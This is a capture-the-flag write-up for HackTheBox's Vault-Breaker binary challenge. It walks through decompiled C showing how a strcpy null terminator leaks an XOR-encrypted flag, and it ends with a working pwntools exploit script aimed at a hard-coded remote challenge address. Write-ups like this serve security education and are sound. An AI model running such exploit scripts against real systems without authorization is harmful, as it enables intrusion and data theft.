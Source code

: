 ```yaml
---
layout: post
title: Binary Exploitatiog&#58; HacktheBox Vault-Breaker Write-up
---
```


## HacktheBox Vault-Breaker Write-up

This was a pretty simply challenge that is centered around the ```strcpy``` function.

First, we need to check the file type and securities on the binary
```
└─$ file vault-breaker
vault-breaker: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./.glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=26386d5d416b0017bc57216179a3fb116fa78667, not stripped
```
```
└─$ checksec --file=vault-breaker                                                
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   90 Symbols	  No	0		5		vault-breaker
```

With a canary, NX, and PIE, we won't be able to (or at least easily) do a buffer overflow or shellcode injection. Time to see what it looks like in ghidra.

### Reversing

First, let's check the ```main``` function.
```c
void main(void)

{
  long lVar1;
  
  setup();
  banner();
  key_gen();
  fprintf(stdout,"%s\n[+] Random secure encryption key has been generated!\n%s",&DAT_00103142,
          &DAT_001012f8);
  fflush(stdout);
  while( true ) {
    while( true ) {
      printf(&DAT_00105160,&DAT_001012f8);
      lVar1 = read_num();
      if (lVar1 != 1) break;
      new_key_gen();
    }
    if (lVar1 != 2) break;
    secure_password();
  }
  printf("%s\n[-] Invalid option, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
  exit(0x45);
}
```

The program generates a random key value in the ```key_gen()``` function and then prompts the user for a menu choice. The options are ```1``` for generate a new key and ```2``` to "secure" the password.

Now we need to look at the ```new_key_gen``` function.
```c
void new_key_gen(void)

{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  ulong local_60;
  ulong local_58;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_60 = 0;
  local_58 = 0x22;
  __stream = fopen("/dev/urandom","rb");
  if (__stream == (FILE *)0x0) {
    fprintf(stdout,"\n%sError opening /dev/urandom, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  while (0x1f < local_58) {
    printf("\n[*] Length of new password (0-%d): ",0x1f);
    local_58 = read_num();
  }
  memset(local_48,0,0x20);
  iVar1 = fileno(__stream);
  read(iVar1,local_48,local_58);
  for (; local_60 < local_58; local_60 = local_60 + 1) {
    while (local_48[local_60] == '\0') {
      iVar1 = fileno(__stream);
      read(iVar1,local_48 + local_60,1);
    }
  }
  strcpy(random_key,local_48);
  fclose(__stream);
  printf("\n%s[+] New key has been genereated successfully!\n%s",&DAT_00103142,&DAT_001012f8);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This function essentially generates a new key of the length provided by the user. The vulnerability is in the ```strcpy``` function. ```strcpy``` takes the contents of ```arg[1]``` and copies them into ```arg[0]```. The catch is, that it will copy the null terminator as well. This will be an important detail in the next function we take a look at, ```secure_password```.
```c
void secure_password(void)

{
  char *__buf;
  int __fd;
  ulong uVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char acStack136 [24];
  undefined8 uStack112;
  int local_68;
  int local_64;
  char *local_60;
  undefined8 local_58;
  char *local_50;
  FILE *local_48;
  undefined8 local_40;
  
  local_40 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  uStack112 = 0x100c26;
  puts("\x1b[1;34m");
  uStack112 = 0x100c4c;
  printf(&DAT_00101308,&DAT_001012f8,&DAT_00101300,&DAT_001012f8);
  local_60 = &DAT_00101330;
  local_64 = 0x17;
  local_58 = 0x16;
  local_50 = acStack136;
  memset(acStack136,0,0x17);
  local_48 = fopen("flag.txt","rb");
  __buf = local_50;
  if (local_48 == (FILE *)0x0) {
    fprintf(stderr,"\n%s[-] Error opening flag.txt, contact an Administrator..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  sVar2 = (size_t)local_64;
  __fd = fileno(local_48);
  read(__fd,__buf,sVar2);
  fclose(local_48);
  puts(local_60);
  fwrite("\nMaster password for Vault: ",1,0x1c,stdout);
  local_68 = 0;
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
  puts("\n");
                    /* WARNING: Subroutine does not return */
  exit(0x1b39);
}
```

This function looks like a lot, but the salient detail is in this code block:
```c
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
```

The flag is XORed with our key. Using the information we gathered previously about the nature of the ```strcpy``` function and the fact that anything XORed with 0 is equal to itself, we can put together the flag one character at a time.

### Pwn

To complete this challenge, we need a script that will connect to the target and input a key length 32 times from 0 to 31 (The key length is 32 bytes).
```python
#!/usr/bin/env  python3

from pwn import *

flag = ""

for i in range(23):
    p = remote("209.97.134.177", 31320) 
    p.recvuntil(b"> ", timeout=30)
    p.sendline(b"1")
    p.recvuntil(b"Length of new password (0-31): ", timeout=30)
    p.sendline(str(i))
    p.recvuntil(b"> ", timeout=30)
    p.sendline(b"2")

    # Capture response
    p.recvuntil(b"Vault: ", timeout=30)
    r = p.recvline()

    # Append unencrypted character to flag
    flag += chr(r[i])
    p.close()
    print(flag)
```

Et Voila!
